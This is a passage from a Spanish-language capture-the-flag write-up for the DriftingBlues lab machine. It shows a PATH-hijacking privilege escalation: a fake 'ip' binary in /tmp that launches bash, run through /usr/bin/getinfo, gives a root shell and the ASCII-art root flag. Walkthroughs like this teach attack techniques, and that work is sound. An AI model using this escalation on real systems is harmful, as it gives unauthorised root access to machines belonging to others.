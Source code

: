 Avanzamos con el **PATH Hijacking**, creamos un archivo ip en */tmp* con código para generarnos la bash y obtenemos acceso root.

Flag 2

```bash
robertj@driftingblues:~$ cd /tmp/
robertj@driftingblues:/tmp$ export PATH=/tmp/:$PATH
robertj@driftingblues:/tmp$ echo '/bin/bash' > ip
robertj@driftingblues:/tmp$ chmod +x ip
robertj@driftingblues:/tmp$ /usr/bin/getinfo
###################
ip address
###################

root@driftingblues:/tmp# cd /root
root@driftingblues:/root# ls
root.txt  upit
root@driftingblues:/root# cat root.txt
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

congratulations!
```

`export PATH=/tmp/:$PATH` ---> Esto significa que el sistema va a ir buscando los binarios partiendo como primer directorio */tmp*.

Hope it helps!